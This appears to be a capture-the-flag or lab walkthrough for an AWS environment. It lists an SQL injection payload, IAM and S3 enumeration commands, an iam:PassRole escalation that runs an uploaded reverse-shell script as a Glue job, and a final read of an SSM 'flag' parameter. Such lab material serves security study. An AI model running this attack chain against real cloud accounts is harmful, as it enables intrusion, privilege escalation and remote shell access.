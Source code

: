1. Sql Injection attack using burp suite
`' 1=1-- -`

2. Check glue administrator information
`aws configure --profile [glue_manager]`

3. Username Verification
`aws --profile [glue_manager] sts get-caller-identity`

4. Check inline policies
`aws --profile [glue_manager] iam list-user-policies --user-name [glue_username]`

5. Read more about inline policies
`aws --profile [glue_manager] iam get-user-policy --user-name [glue_username] --policy-name [inline_policy_name]`

6. Check the bucket granted to the privilege
`aws --profile [glue_manager] s3 ls s3://[bucket_name]`

7. Listing roles for using iam:passrole
`aws --profile [glue_manager] iam list-roles`

8. Inquiry permissions for roles
`aws --profile [glue_manager] iam list-attached-role-policies --role-name [role_name]`

9. Uploading reverse shell code(rev.py) created on the webpage

10. Create a glue job that executes reverse shell code
`aws --profile [glue_manager] glue create-job --name [job_name] --role [role_arn] --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://[bucket_name]/[reverse_shell_code_file]"}'`

11. Run a job
`aws --profile [glue_manager] glue start-job-run --job-name [job_name]`

12. Accessing SSM parameters
`aws ssm get-parameter --name flag`
